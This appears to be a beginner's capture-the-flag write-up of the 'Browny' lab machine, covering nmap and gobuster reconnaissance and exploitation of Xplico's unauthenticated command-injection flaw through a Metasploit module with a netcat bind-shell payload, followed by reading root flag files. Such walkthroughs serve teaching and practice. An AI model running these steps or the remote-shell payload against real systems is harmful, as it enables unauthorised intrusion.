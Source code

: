```yaml
---
title: "Browny Machine Writeup (easy)"
date: 2019-04-28T01:12:17+02:00
author: "Ahmed Amin"
draft: true
cover: "cover.jpg"
---
```



======================
<h2>Quick Summary</h2>


Hey guys , today I will walkthrough step by step in Browny Machine.
this Machine is so good for beginner in pentration testing you will gonna learn a lot in this experenice.
It is an easy linux machine , We will exploit Xplico Remote Code Execution in a vulnerable version Xplico that listen on port 9876 by default. There is a hidden end-point at inside of the Xplico that allow anyone to create a new user that can execute a terminal command under the context of the root user.
its ip is 10.1.1.17 I gonna added it to /etc/hosts as Browny.lab<br>
Let’s get Start !


======================
<h2>Infomartions Gathering Phase</h2>
<h3>#Nmap</h3>

We will use nmap tool for collecting informations about our target such as what services are running , whats its versions and does those services has potential vulnerabilities.

<style>
pre {
    color: cyan;
}
</style>
<pre>
nmap -sV -sC -sT Browny.lab
</pre>

> sV: for version detection <br>
> sC: for lunch default scripts againts services <br>
> sT: for system is used to open a connection to every interesting port on the machine 





![nmap.PNG](/posts/images/nmap.PNG)


<h3>we notice that there three  ports are open.</h3>
we can access the machine via ssh protocol but we don't have any crediantials to able to access via ssh.
so we can to  do http enumeration for finding any clues that lead us to access the machine through that way



it just a dummy html page. and nothing more.

<img src = "/posts/images/dummy.png">

<h3>#Brupsuite</h3>
Via Brupsuite lets check The Get Request to server and Response Maybe we found something useful.
<img src = "/posts/images/dummy2.PNG">
Not Much except the explico that will be a great indicator for gaining access for this machine.

always while you doing http enumeration try to brute force subdirectries for finding any intersesting web pages could give you a greate information about your target

<h3>#Gobuster</h3>
Gobuster is such a greate tool for brute forcing hidden directories in web application.
<pre>
gobuster -u 'http://Browny.lab' -w /usr/share/wordlists/dirb/common.txt
</pre>

<img src = "/posts/images/dummy3.PNG">
based on the response code we got they have 403 which mean we don't have premission to access to those webpages.


<h2>vulnerabilty detection and analysis</h2>
after doing info-garthing we got only one clue that can lead us to gain access. the explico service is running.
so what is explico ? explico is a piece of software that used for parsing pcap files that help forensics team
for collecting evidence and artifacts.Xplico extracts each email (POP, IMAP, and SMTP protocols), all HTTP contents, each VoIP call (SIP), FTP, TFTP, and so on. the problem is  There is a hidden end-point at inside of the Xplico that allow anyone to create a new user with premission of root.once the pcap file uploaded .
Xplico execute an operating system command in order to calculate checksum of the file. Name of the for this operation is direclty taken from user input and then used at inside of the command without proper input validation. so we can execute a shell on system and gain access.<br> <a href ="https://www.rapid7.com/db/modules/exploit/linux/http/xplico_exec">there is a metasploit module will do all the hard works to take advantage of this flaw</a>


<h2>Exploitation Phase</h2>
<h3>#Metasploit</h3>

lets lunch the Metasploit framework and doing research on xplico http exploit
By doing search we will find exploit with rank excellent
<pre>
grep http search xplico
use exploit/linux/http/xplico_exec
</pre>
![meta1.PNG](/posts/images/meta1.PNG)
<pre>
show options
set LHOST 10.253.x.x
set LHOST 10.1.1.17
show payloads
set  PAYLOAD cmd/unix/bind_netcat
</pre>

![meta2.PNG](/posts/images/meta2.png)

and now we have a shell.let do id command line to know make sure about privilege as root
we play an easy machine so don't need to privilege escalation or any complicated stuffs. all we need to do
is explore the system files after we sure that we are root. and open the root.txt and user.txt to  get the flags
<pre> 
id
pwd
find /home
find /root
cat /home/granit/usr.txt
cat /root/root.txt
</pre>
==============================
<h2>Understanding The Exploitation in Depth</h2>
I recommend you to read this artical <a href="https://pentest.blog/advisory-xplico-unauthenticated-remote-code-execution-cve-2017-16666/">Readme</a> will explain to you the details of the flaw in explico
this step is essential to not be a script kid that know doing stuffs without knowing what happing behind the scene

that's all about this machine. 
<h4>Stay tuned for upcoming series</h4>
<h3>Feedback is it very appreciate</h3>

